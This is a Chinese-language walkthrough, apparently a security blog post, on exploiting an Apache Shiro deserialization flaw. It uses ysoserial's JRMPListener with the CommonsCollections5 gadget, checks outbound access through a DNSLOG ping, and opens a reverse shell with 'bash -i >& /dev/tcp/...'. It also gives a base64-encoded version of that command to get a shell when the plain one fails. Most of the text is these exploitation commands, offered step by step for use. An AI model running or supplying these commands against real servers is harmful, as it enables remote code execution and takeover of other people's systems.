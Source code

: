 ## 使用DNSLOG进行检测

在不确定目标是否通外网的情况下 先使用DNSLOG进行检测 获取一个新的域名 ：w3dh1h.dnslog.cn

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348081.png "null")

## VPS上开启JRMPListener

在VPS上搭建服务命令

java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping w3dh1h.dnslog.cn"

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348087.png "null")

shiro反序列利用工具中选择JRMPClient,然后输入VPS上搭建服务的地址：

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348088.png "null")

JRMPListener 收到返回信息

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348090.png "null")

DNSLOG上收到目标的ping 命令信息 说明目标服务器通外网

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348093.png "null")

## 执行反弹命令

执行反弹命令 bash -i >& /dev/tcp/xxxxxx/8888 0>&1

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348094.png "null")

没有收到反弹链接

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348095.png "null")

将命令进行base64编码 java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eC54eC54eC54eHgvODg4OCAwPiYx}|{base64,-d}|{bash,-i}"

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-16693480951.png "null")

成功收到反弹链接

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348097.png "null")

![](https://secpulseoss.oss-cn-shanghai.aliyuncs.com/wp-content/uploads/1970/01/beepress-image-192266-1669348100.gif)

E

N

D
